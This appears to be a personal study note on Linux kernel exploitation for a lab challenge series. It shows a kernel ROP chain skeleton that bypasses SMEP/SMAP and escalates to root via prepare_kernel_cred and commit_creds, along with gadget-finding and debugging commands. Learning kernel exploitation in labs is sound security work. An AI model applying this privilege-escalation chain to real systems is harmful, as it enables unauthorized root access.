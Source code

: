 some prerequisites...

When `smep` and `smap` are enable, the previous `ret2usr` exploit can't be used because userspace code no longer accessible and executable (just like `NX` in userland). So we use ROP, similar to this:

```C
...
    rop[inc] = pop_rdi;
    rop[inc] = 0;
    rop[inc] = prepare_kernel_cred;
    rop[inc] = pop_rcx;
    rop[inc] = 0;
    rop[inc] = mov_rdi_rax;
    rop[inc] = commit_creds;
    rop[inc] = swapgs;
    rop[inc] = iretq;
    rop[inc] = user_rip;
    rop[inc] = user_cs;
    rop[inc] = user_rflags;
    rop[inc] = user_rsp;
    rop[inc] = user_ss;
...
```

### Finding kernel gadgets

First, to find the Linux kernel ROP gadget, we need to extract the ELF file, `vmlinux`, which is the core of the kernel, from the `bzImage`. For this, we'll use the official shell script [extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux) :

```bash
extract-vmlinux bzImage > vmlinux
```

use your favorite tool to find the ROP gadget: https://github.com/Ben-Lichtman/ropr

```bash
ropr vmlinux --noisy --nosys --nojop -R '^pop rdi.+ret;'
```

**Warning**:

> It seems that in the kernel image file `vmlinux`, there is no information about whether a region is executable or not, so `ROPgadget` will attempt to find all the gadgets that exist in the binary, even the non-executable ones. If you try to use a gadget and the kernel crashes because it is non-executable, you just have to try another one.

> Notice that the ROP chain can be shorter by skip `prepare_kernel_cred`, instead use `init_cred` and pass to `commit_cred`, but should do full rop because not all `linux` version build with `init_cred` symbol, if we want to use we have to debug and find where it located

### Stack pivot?

> when we cannot fit the whole ROP chain in stack...

Its worth to read: [this](https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/#pivoting-the-stack)

### Debug kernel with symbols

Debug kernel is pain, its alot easier when have symbols

download `vmlinux-to-elf`: https://github.com/marin-m/vmlinux-to-elf

usage:

```bash
./vmlinux-to-elf <input_kernel.bin> <output_kernel.elf>
```

then after start qemu, open gdb:

```bash
gdb <output_kernel.elf>
```

```bash
pwndbg> target remote:12345
```

its much better now:

![](pics/img00.png)

### kROP: +smep, +smap, no kpti, no kaslr

**Summary**:
- ROP into `prepare_kernel_cred(0)`.
- ROP `into commit_creds()`, with the return value from step 1 as parameter.
- ROP into `swapgs ; ret`.
- ROP into `iretq` with the stack setup as `RIP|CS|RFLAGS|SP|SS`.

Tutorial: [this](https://github.com/5o1z/kNotes/tree/main/LKE/LK01/V1#exploit-krop-bypass-smep-smap-with-no-kpti-no-kaslr) and [this](https://github.com/vilesport/Kernel-exploit/tree/main/Kernel%20Exploit%20Basics/LK01/HTV1#krop-smep-smap-no-kpti-no-kaslr) and [this](https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/) and [blog](https://pawnyable.cafe/linux-kernel/LK01/stack_overflow.html#kROP)

> exploit code in the same folder